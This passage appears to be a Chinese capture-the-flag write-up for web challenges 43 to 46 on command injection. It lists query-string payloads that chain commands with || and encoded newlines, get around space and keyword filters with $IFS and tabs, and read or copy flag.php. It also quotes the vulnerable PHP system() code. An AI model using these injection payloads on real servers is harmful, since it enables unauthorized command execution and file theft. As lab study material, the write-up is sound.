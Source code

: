 可构造playload:
` ?c=tac flag.php||`
 `?c=tac flag.php%26`
 注意，这里的&需要url编码

`/dev/null 2>&1`是不进行回显，所以采用命令把flag打印出来，利用`;`分隔分化一下 构造payload：





## Web 43

命令执行，因为正则过滤了；分号，过滤了cat，所以使用了`?c=tac flag*%0a`

也可以：

```
?c=ls||
?c=tac flag.php||
```





## Web 44

`?c=tac fl*||`

也可以通过cp命令将flag.php的内容cp成txt格式的，`?c=cp fl* a.txt`，之后直接访问a.txt就可以直接看到flag。





## Web 45

过滤了空格

```
?c=echo$IFS`tac$IFS*`%0A
```

或者直接`%09`：`?c=tac%09fl*||`。





## Web 46

代码如下：

```php
<?php
if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)) {
        system($c . " >/dev/null 2>&1");
    }
} else {
    highlight_file(__FILE__);
}
```
